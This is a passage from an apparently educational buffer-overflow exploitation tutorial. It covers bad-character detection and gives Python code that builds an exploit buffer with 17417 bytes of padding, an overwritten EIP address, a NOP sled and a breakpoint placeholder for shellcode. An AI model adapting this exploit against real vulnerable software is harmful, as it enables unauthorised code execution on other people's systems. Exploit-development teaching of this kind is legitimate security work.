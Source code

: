 - `0x00` - is a common string terminator.
- `0x0a`, `0x0d` - carriage returns, and line feeds might often be treated as line terminators, especially in software that makes use of HTTP or FTP protocols.
- `0xff` - this byte is often interpreted as `EOF` (End Of File)

The simplest way to detect bad characters is to place a complete ASCII table within the buffer and then check the debugger view to see if any of the bytes have been removed or altered.

Frequently, the presence of a bad character may result in the buffer being truncated. The exploit would then need to be modified by removing the bad character from the buffer and resending the data until all bad characters are eliminated.

Let's implement the ASCII table into the exploit buffer:

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

Our exploit:

```python
shellcode = "\xcc"

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "http://"
buffer += "A" * 17417
buffer += "\x6e\x9d\x92\x55" # will become EIP 0x55929d6e
buffer += "\x90" * 50 # NOPs
buffer += shellcode # breakpoint
buffer += badchars
buffer += "C" * (600 - len(badchars))

```
